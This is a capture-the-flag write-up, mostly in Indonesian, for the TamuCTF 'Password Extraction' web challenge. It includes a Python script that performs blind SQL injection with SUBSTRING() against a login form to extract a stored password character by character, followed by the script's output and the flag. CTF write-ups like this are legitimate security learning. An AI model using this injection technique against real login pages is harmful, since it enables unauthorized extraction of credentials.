


<h1 align="center">Password Extraction</h1>

## Description

The owner of this website often reuses passwords.  Can you find out the password they are using on this test server?  

### Setup Docker

[Dockerfile](https://github.com/KelompokStudiLinux/WriteUp-CTF/raw/master/TamuCTF/WEB/password-extraction/Dockerfile.tar)

```
> docker build . -t passwordextraction
> docker run -p 80:80 passwordextraction
```

## Solution

Pada deskripsi yang diberikan dapat dipastikan passwordnya adalah **flag**. <br />
Untuk memastikan web tersebut vulnerable terhadap sqli kami mencoba melakukan :



Hasilnya :



Langkah selanjutnya kami hanya perlu melakukan injection dengan memanfaatkan fungsi [SUBSTRING()](https://www.w3schools.com/SQL/func_sqlserver_substring.asp) pada SQL untuk mengextract password : <br />

```
import string
import requests

chars = [x for x in string.printable if x not in ['%', '_']]
url = 'http://172.17.0.2/login.php'
injection = "' OR SUBSTRING(password,1,{})='{}' -- -"
flag = ''

while '}' not in flag:
    for char in chars:
        length = len(flag) + 1
        newString = flag + char
        inject = injection.format(length, newString)
        payload = { 'username': inject, 'password': 'bebas' }

        r = requests.post(url, data=payload)
        
        if 'authorized' in r.text:
            flag = newString
            print(flag)
            break
```
[solve.py](./solve.py)

Hasil :

```
❯ ./solve.py
g
gi
gig
gige
gigem
gigem{
gigem{h
gigem{h0
gigem{h0p
gigem{h0pe
gigem{h0peY
gigem{h0peYo
gigem{h0peYou
gigem{h0peYouS
gigem{h0peYouSc
gigem{h0peYouScr
gigem{h0peYouScr1
gigem{h0peYouScr1p
gigem{h0peYouScr1pt
gigem{h0peYouScr1pte
gigem{h0peYouScr1pted
gigem{h0peYouScr1ptedT
gigem{h0peYouScr1ptedTh
gigem{h0peYouScr1ptedTh1
gigem{h0peYouScr1ptedTh1s
gigem{h0peYouScr1ptedTh1s}
```

### FLAG

```
gigem{h0peYouScr1ptedTh1s}
```
